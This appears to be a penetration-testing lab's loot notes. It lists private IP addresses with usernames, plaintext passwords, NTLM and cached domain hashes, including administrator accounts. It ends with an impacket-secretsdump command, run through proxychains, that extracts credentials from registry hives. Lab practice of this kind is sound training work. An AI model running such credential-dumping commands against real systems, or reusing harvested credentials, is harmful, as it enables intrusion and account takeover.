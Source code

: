 192.168.x.121;mssql,sa:WhileChirpTuesday218
192.168.x.121;user,joe,Flowers1
172.16.x.11;user,daisy,abf36048c1cf88f5603381c5128feb8e
172.16.x.11;user,toad,5be63a865b65349851c1f11a067a3068 
172.16.x.11;user,wario,Mushroom!
172.16.x.11;user,goomba,8e9e1516818ce4e54247e71e71b5f436 
172.16.x.11;user,administrator,f1014ac49bae005ee3ece5f47547d185
172.16.x.11;domain,administrator,$DCC2$10240#Administrator#a7c5480e8c1ef0ffec54e99275e6e0f7 
172.16.x.11;domain,yoshi,Mushroom!  
172.16.x.11;domain,wario,$DCC2$10240#wario#b82706aff8acf56b6c325a6c2d8c338a     
172.16.x.11;domain,joe,$DCC2$10240#joe#464f388c3fe52a0fa0a6c8926d62059c

proxychains4 impacket-secretsdump -system system -sam sam -security security joe@172.16.244.11